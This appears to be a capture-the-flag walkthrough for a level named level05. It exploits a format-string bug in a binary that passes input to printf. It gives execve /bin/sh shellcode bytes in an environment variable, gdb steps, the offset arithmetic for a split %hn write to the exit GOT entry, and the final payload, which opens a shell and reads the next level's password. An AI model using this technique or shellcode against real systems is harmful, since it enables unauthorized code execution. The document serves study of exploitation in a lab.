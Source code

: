 # Walkthrough level05

This binary do a fgets of 100 chars and use the result in first argument of printf.  
Override eip is not possible because we have an exit after the printf.
The only possible way to execute a shell is to replace exit plt address (`0x80497e1`)  
We can't write chars between 64 and 90 in ascii because the code transform this
chars with a XOR 32. To bypass this we write our shellcode in environment variable.  

Get the address of the beginning of the shellcode:

```bash
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
(gdb) x/s *environ
0xffffd873:      "SHELLCODE=(...)
```

Try to write the address of the shellcode in the address of exit:

```bash
(gdb) r < <(python -c 'print("\x08\x04\x97\xe0"[::-1] + "%4294957167d%10$n")')
Breakpoint 1, 0x08048513 in main ()
(gdb) x/xw 0x80497e0
0x80497e0 <exit@got.plt>:       0x08048376
```

We can see that doesn't work.  
It's because we can't write as much chars with printf.  
Try to write the address in two times.

```bash
Split the address to write in 2 bytes:
low = 0xd873 = 55411
high = 0xffff = 65535
nop shifting = 40
address1 + address2 + %Xd%10$n + "%Yd%11$n"
X = low - 8 + 40 = 55443
Y = high - low - 40 = 10084
```

Lets exploit this:

```bash
export SHELLCODE=$(python -c 'print "\x90" * 100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80"')
(python -c 'print("\x08\x04\x97\xe0"[::-1] + "\x08\x04\x97\xe2"[::-1] + "%55443d%10$hn%10084d%11$hn")'; cat) | $PWD/level05
...
whoami
level06
cat /home/users/level06/.pass
h4GtNnaMs2kZFN92ymTr2DcJHAzMfzLW25Ep59mq
```
